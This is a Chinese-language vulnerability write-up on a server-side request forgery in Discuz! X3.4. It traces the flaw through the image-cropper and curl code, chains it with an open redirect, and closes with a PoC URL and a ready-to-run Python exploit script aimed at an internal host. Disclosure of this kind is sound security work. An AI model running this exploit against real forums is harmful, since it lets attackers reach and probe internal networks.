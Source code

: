 Discuz! X3.4 前台ssrf
=====================

一、漏洞简介
------------

DDiscuz! X3.4
source/module/misc/misc\_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

**本地ssrf**

/source/module/misc/misc\_imgcropper.php 55行

        require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {      showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));    }
    $prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb

source/class/class\_image.php 51行

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix); }

拼接后的参数作为`$source`又传进了init函数

source/class/class\_image.php 118行

        function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;        if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');            if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的,
`$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org\`即可继续执行。

![](./.resource/Discuz!X3.4前台ssrf/media/rId25.png)

source/function/function\_core.php 199行

    function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}

进入dfsockopen函数后，我们构造的字符串变为\$url，然后传入了\_dfsockopen函数。

dz/source/function/function\_filesock.php 31行

image

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse\_url解析了一次\$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![](./.resource/Discuz!X3.4前台ssrf/media/rId26.png)

其\$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![](./.resource/Discuz!X3.4前台ssrf/media/rId27.png)

在php的curl中我们尝试访问://dz/forum.php

![](./.resource/Discuz!X3.4前台ssrf/media/rId28.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![](./.resource/Discuz!X3.4前台ssrf/media/rId29.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class\_member.php 310行

![](./.resource/Discuz!X3.4前台ssrf/media/rId31.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function\_core.php 1498行

![](./.resource/Discuz!X3.4前台ssrf/media/rId32.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，\$\_SERVER\['HTTP\_HOST'\]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![](./.resource/Discuz!X3.4前台ssrf/media/rId33.png)

站内ssrf-\>前台get型的任意url跳转-\>ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse\_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

    htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1

### python 脚本

    # coding=utf-8
    import requests
    import re
    from urllib.parse import urlparse, quote
    from urllib import parse
    if __name__ == "__main__":
        url = "http://192.168.66.129/dz/"
        ssrf_target = "192.168.0.36:6666"
        path = urlparse(url).path
        payload = quote(
            "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
                ssrf_target=ssrf_target))
        s = requests.Session()
        html = s.get(url).text
        searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
        formhash = searchObj.group(1)
        rs = s.post(
            url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
                formhash=formhash, path=path, payload=payload))
        exit()

![](./.resource/Discuz!X3.4前台ssrf/media/rId36.png)

参考链接
--------

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4前台有限制SSRF漏洞/index.html)

